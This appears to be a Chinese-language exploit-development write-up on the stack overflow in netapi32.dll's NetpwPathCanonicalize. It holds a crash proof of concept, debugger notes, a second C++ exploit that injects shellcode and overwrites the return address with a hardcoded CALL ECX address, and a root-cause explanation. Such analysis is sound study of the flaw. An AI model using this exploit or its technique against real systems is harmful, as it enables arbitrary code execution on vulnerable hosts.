




# 简要分析

漏洞点存在为netapi32.dll中的NetpwPathCanonicalize()导出函数，NetpwPathCanonicalize()是netapi32.dll的一个导出函数，用于格式化网络路径字符串，它的原型如下：

```
int NetpwPathCanonicalize (
uint16 path[ ], // [in] path name
uint8 can_path[ ], // [out] canonicalized path
uint32 maxbuf, // [in] max size of can_path
uint16 prefix[ ], // [in] path prefix
uint32* pathtype, // [in out] path type
uint32 pathflags // [in] path flags, 0 or 1
);
```

这是一个Unicode字符串处理函数，大体功能是：如果prefix串非空，将prefix串与path串用‘\’相连，并复制到输出串can_path中，输出串的容量为maxbuf字节大小：

```
can_path=prefix+"\"+path
```

触发漏洞的POC：

```C++
#include<windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	(Trigger)(path,can_path,maxbuf,prefix,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

POC说明：导入存在漏洞的netapi32.dll中的NetpwPathCanonicalize函数，将path和prefix设置的很长以触发漏洞。

运行后报错，使用OD attach：


EIP被覆盖为"aaaa"的ascii：0x61616161，可见传入的参数溢出，覆盖了EIP。

算出VA：0x75107B13

在这里程序再一次crash：


在这个wscat的拼接函数完成后存储返回地址的地方（0x12F6A8）被覆盖：





根据ECX总是指向栈开始的buff可以构造如下shellcode：

shellcode+patch+(jmp ecx)

call ecx：0x796DB16C

修改后POC：

```C++
#include<windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	
	LibHandle = LoadLibrary(dll);

	//__asm int 3;

	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	memcpy(prefix,shellcode,168);

	path[0x318]=0x6C;// address of CALL ECX
	path[0x319]=0xB1;
	path[0x31A]=0x6D;
	path[0x31B]=0x79;

	(Trigger)(path,can_path,maxbuf,prefix ,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

攻击成功：



静态分析结果：



按照ASCII字符开辟空间，按照Unicode字符来检查边界是漏洞的根本原因。
